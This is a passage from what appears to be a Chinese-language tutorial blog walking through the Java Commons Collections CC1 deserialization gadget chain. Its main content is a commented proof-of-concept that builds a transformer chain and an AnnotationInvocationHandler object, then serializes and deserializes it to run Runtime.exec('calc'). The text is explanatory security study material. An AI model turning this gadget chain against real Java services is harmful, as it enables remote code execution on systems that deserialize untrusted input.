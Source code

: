 ```java
                constantTransformer,
                invokerTransformer
        });
        // 把两个 transformer 组合起来
        // 首先通过 constantTransformer 过滤掉内部类
        // 在把返回的 runtime 实例对象作为参数传递给 invokerTransformer
        // 执行 runtime.exec("calc");

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");
        // 为了和 Target 注解的成员一致 key 赋值为 value
        Map<Object, Object> transformerMap = TransformedMap.decorate(map, null, chainedTransformer);
        // 修饰 Map，把它的 value 加上 chainedTransformer
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 根据反射获取类对象
        Constructor annotationInvocationHandlerConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        // 由于构造方法是默认类型，所以使用 getDeclared 获取构造方法
        // 参数分别是 Class 和 Map 类型
        annotationInvocationHandlerConstructor.setAccessible(true);
        // 修改构造方法的可见性
        Object object = annotationInvocationHandlerConstructor.newInstance(Target.class, transformerMap);
        // 传递构造方法的参数，两个参数分别为
        // 1. 注解的类对象
        // 2. Map

        serialize(object);
        unSerialize("ser.bin");
    }

    public static void serialize(Object object) throws Exception {
        // 序列化对象
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    public static Object unSerialize(String fileName) throws Exception {
        // 反序列化对象
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(fileName));
        return ois.readObject();
    }
}
```

涉及到的类中`Runtime` 没有实现 `java.io.Serializable` 接口；

![image-20240312100339494](https://pic.mewhz.com/blog/image-20240312100339494.png)

 但是它的 `Class`可以序列化，`Class` 实现了 `java.io.Serializable` 接口
